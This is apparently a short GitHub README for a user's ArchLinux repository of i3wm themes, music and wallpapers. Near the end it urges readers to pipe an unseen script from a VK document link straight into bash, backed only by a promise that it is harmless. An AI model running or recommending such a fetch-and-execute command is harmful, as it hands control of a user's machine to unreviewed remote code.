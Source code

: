 # dmitry_babaycev
A repository of ArchLinux user's configs.

* My site: http://babaycev.3dn.ru/
* Vk: https://vk.com/idkuzuka

In this repository you can find

* My i3wm configuration files (Current version 2.0 from 11.10.2015) with
 * 11 Windows thenes
 * 14 Bar themes
 * 6 Dmenu themes
 
* My favorite music MP3 Files

* My favorite wallpapers 16:9
 * To download one, open it, right clicl on image, press "Save as..."

To see what I can, do this comand in terminal from user:
 $ curl -s http://vk.com/doc333664467_437145013 | bash

I guarant you that it can't be dangerous for you, but if you afraid to do this, nobody makes you do this.
